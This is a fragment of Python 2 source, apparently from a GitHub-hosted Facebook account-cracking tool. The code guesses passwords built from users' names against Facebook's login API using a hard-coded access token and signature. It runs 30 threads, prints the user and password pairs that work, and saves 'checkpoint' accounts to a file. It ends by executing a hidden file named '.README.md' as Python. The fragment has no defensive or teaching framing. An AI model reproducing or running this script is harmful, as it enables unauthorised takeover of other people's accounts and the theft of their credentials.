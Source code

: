 									pass4 = kn+"12"
									data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
									q = json.loads(data.text)
									if '407' in q['error_msg']:
										print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass4
										oks.append(user+pass4)
									else:
										if '405' in q["error_msg"]:
											print '[Checkpoint] ' + user + ' | ' + pass4
											cps = open("save/checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 50*"-"
	print '[✓] Process Has Been Completed ....'
	print "[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb))
	print("[✓] CP File Has Been Saved : checkpoint.txt")
	raw_input("\n[Press Enter To Go Back]")
	os.system('python2 .README.md')

if __name__ == '__main__':
	menu()

